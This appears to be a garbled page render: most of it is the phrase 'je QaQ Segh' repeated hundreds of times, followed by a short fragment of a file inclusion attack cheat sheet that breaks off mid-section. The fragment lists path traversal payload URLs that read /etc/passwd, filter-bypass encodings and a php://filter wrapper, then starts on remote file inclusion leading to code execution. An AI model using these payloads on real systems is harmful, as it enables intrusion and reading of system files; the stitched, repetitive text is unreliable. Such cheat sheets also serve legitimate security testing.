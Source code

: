 je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je
QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Segh je QaQ Seg
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```
## Remote File Inclusion

In php this is disable by default because **`allow_url_include`** is **Off.** It must be **On** for it to work, and in that case you could include a PHP file from your server and get RCE:
